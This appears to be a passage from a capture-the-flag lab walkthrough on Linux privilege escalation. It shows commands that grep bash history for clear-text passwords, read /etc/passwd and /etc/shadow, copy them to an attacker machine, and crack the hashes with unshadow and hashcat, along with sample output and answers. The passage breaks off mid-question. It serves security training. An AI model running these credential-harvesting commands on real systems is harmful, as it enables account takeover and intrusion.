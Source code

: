 **Linux VM**

1. In command prompt type: `cat ~/.bash_history | grep -i passw`
2. From the output, make note of the clear-text credentials.

---

```
TCM@debian:~$ cat ~/.bash_history | grep -i passw
mysql -h somehost.local -uroot -ppassword123
cat /etc/passwd | cut -d: -f1
awk -F: '($3 == "0") {print}' /etc/passwd
```

1. What was TCM trying to log into?

`mysql`

2. Who was TCM trying to log in as?

`root`

3. Naughty naughty.  What was the password discovered?

`password123`

## Privilege Escalation - Weak File Permissions

**Detection**

**Linux VM**

1. In command prompt type: `ls -la /etc/shadow`
2. Note the file permissions

**Exploitation**

**Linux VM**

1. In command prompt type: `cat /etc/passwd`
2. Save the output to a file on your attacker machine
3. In command prompt type: `cat /etc/shadow`
4. Save the output to a file on your attacker machine

**Attacker VM**

1. In command prompt type: `unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt`

Now, you have an unshadowed file. We already know the password, but you can use your favorite hash cracking tool to crack dem hashes.

For example: `hashcat -m 1800 unshadowed.txt rockyou.txt -O`

---

```
TCM@debian:~$ ls -la /etc/shadow
-rw-rw-r-- 1 root shadow 809 Jun 17 23:33 /etc/shadow
```

1. What were the file permissions on the /etc/shadow file? 
